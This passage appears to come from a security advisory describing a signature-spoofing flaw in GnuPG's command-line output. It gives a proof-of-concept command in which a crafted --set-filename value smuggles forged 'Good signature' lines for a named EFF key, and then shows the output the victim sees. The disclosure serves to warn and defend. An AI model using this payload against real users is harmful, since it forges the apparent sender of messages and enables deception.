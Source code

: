 There are some disadvantages, too:

* The message looks more suspicious under forensic analysis. For
  example, a virus scanner could be enabled to detect this attack.
* The victim might notice that they are able to view the message
  without providing a passphrase or security token.

## Proof of concept III: Signature spoof on the command line

It is well known that email clients and other graphical user
interfaces to GnuPG provide a larger attack surface than using GnuPG
on the command line. For example, during the EFAIL vulnerability
window, the EFF recommended to use the command line to read messages
"in as safe a way as possible" on
[Linux](https://www.eff.org/de/deeplinks/2018/05/using-command-line-decrypt-message-linux),
[Windows](https://www.eff.org/de/deeplinks/2018/05/using-command-line-decrypt-message-windows)
and
[MacOS](https://www.eff.org/de/deeplinks/2018/05/using-command-line-decrypt-message-macos).

One of the few safe ways to verify signatures on the command line is
documented in the ["The GNU Privacy Handbook"](https://www.gnupg.org/gph/en/manual/x135.html):

> To verify the signature and extract the document use the `--decrypt`
> option. The signed document to verify and recover is input and the
> recovered document is output.
>
> ```
blake% gpg --output doc --decrypt doc.sig
gpg: Signature made Fri Jun  4 12:02:38 1999 CDT using DSA key ID BB7576AC
gpg: Good signature from "Alice (Judge) <alice@cyb.org>"
```

Unfortunately, the attack might even work on the command line. Here we
demonstrate how to get very close to spoofing signatures on the
command line following the recommended decryption procedure, in a way
that is portable across all operating systems and terminal types:

```
echo 'meet me at 10am' | gpg --armor --store --set-filename "`echo -ne msg\''\
\ngpg: Signature made Tue 12 Jun 2018 01:01:25 AM CEST\
\ngpg:                using RSA key 1073E74EB38BD6D19476CBF8EA9DBF9FB761A677\
\ngpg:                issuer "bill@eff.org"\
\ngpg: Good signature from "William Budington <bill@eff.org>" [full] '\''msg'`" > poc3.msg
```

When reading the message, the victim sees the following output (if `verbose` is enabled in `gpg.conf`):

```
$ gpg --output poc3.txt -d poc3.msg 
gpg: original file name='msg'
gpg: Signature made Tue 12 Jun 2018 01:01:25 AM CEST
gpg:                using RSA key 1073E74EB38BD6D19476CBF8EA9DBF9FB761A677
gpg:                issuer "bill@eff.org"
gpg: Good signature from "William Budington <bill@eff.org>" [full] 'msg'
$ cat poc3.txt
meet me at 10am
```

The result is not a perfect match to the usual (no-verbose) output,
but it is dangerously close. The main differences are:

* The first line indicates an "original file name", which is
  uncommon. But the line shown is identical to a message which
  actually has a "original file name" of `msg`.
```